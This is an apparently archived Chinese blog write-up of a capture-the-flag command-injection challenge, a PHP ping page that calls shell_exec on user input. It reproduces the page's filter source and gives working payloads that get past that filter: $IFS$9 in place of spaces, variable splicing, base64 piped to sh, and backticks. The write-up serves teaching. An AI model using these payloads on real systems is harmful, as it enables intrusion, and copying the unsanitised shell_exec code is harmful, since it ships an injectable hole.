







<!--yml
category: 未分类
date: 2022-04-26 14:36:54
-->

# BUUCTF__[GXYCTF2019]Ping Ping Ping_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/106890338](https://blog.csdn.net/TM_1024/article/details/106890338)

## 前言

*   我感觉我是一个假的理工科生，假的计算机相关专业学生，完全没有该有的样子
*   这题有点东西，不算太水。只是对我来说。

## 读题

*   题目是Ping，打开也没有内容，就一个get传参的ip变量
    
*   不过看到ip和ping就容易联想到，终端`ping`命令。
*   先尝试传入一个`ip=127.0.0.1`，于是乎出现了如下，在终端下执行的效果就是这样，命令执行石锤了。
    
*   所以，利用拼接符在ping命令后添加我们需要的命令即可。所以可以用拼接符

> & 表示任务在后台执行，如要在后台运行redis-server,则有 redis-server &

> && 表示前一条命令执行成功时，才执行后一条命令 ，如 echo '1‘ && echo ‘2’

> | 表示管道，上一条命令的输出，作为下一条命令参数，如 echo ‘yes’ | wc -l

> || 表示上一条命令执行失败后，才执行下一条命令，如 cat nofile || echo “fail”

> ; 分号表示命令依次执行。

*   首先尝试了`&&` 但居然没有回显，很奇怪，理论上`ping 1270.0.0.1&&ls`（为啥是ls命令？拿flag总得知道它在哪吧）应该是可以的，但不知道为什么，还有就是输入无法ping通的ip也是一样的回显，可能是因为这是假ping吧，前面没成功，所以后面不执行
*   然后尝试用`|` 回显得知 index.php 和 flag.php
    
*   尝试用cat命令读取flag.php,提示有空格，空格被过滤了
    
*   于是我去百度了命令执行空格绕过，参考[这篇文章](https://blog.csdn.net/a3320315/article/details/99773192)
*   但尝试发现，不仅空格被禁了,像 `{` 、 `<` 、`%` 也被禁了但是$IFS$9能用，不过提示flag也被过滤了。
*   加一点为什么用$IFS不行，因为用 $IFS的话，会认为解析没结束，会把后面的也当做参数解析，而 $IFS$9的话，结束了 $IFS 后加上了一个不存在或者说空字符串的变量。所以解析为空，但结束了 $IFS正常执行后面的内容
    
    
*   所以先尝试读index.php ,得到源码，发现了过滤规则。

```
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?> 
```

*   猜测flag在flag.php里，所以我们需要绕过正则读取flag.php。
*   网上发现三种绕过方法

## 解题

### 方法一、变量拼接字符串

*   使用变量拼接字符串，比如这样
    
*   所以我们可以拼接一个flag

```
b=ag.php;a=fl;cat$IFS$9$a$b 
```

### 方法二、sh命令来执行

*   有一说一，我在 bash、sh 和 shell 之间很迷。我的理解 sh 和 bash 是执行shell命令的不同方法。
*   使用 base64 编码的方式来绕过 flag 过滤。

> 1.  加密命令
>     echo “cat flag.php” | base64

> 2.  解密命令并执行
>     echo Y2F0IGZsYWcucGhwCg== | base64 -d | sh

### 方法三、内联执行

*   反引号在linux中作为内联执行，执行输出结果。也就是说

    ```
     cat `ls`   //执行ls输出 index.php 和 flag.php 。然后再执行 cat index.php;cat flag.php 
    ```

*   所以可以构造payload

    ```
    ?ip=127.0.0.1;cat$IFS$9`ls` 
    ```

*   得到flag，可以看见两个php文件都有显示
    

*   这个确实厉害

## 最后

*   还题的知识点关于命令执行的拼接和绕过，尤其是后面两种方法，对Linux命令行不熟悉的话很难想到。
*   附上[题目链接](https://buuoj.cn/challenges#%5BGXYCTF2019%5DPing%20Ping%20Ping)
*   持续更新BUUCTF题解，写的不是很好，欢迎指正。
*   最后欢迎来访[个人博客](http://ctf-web.zm996.cloud/)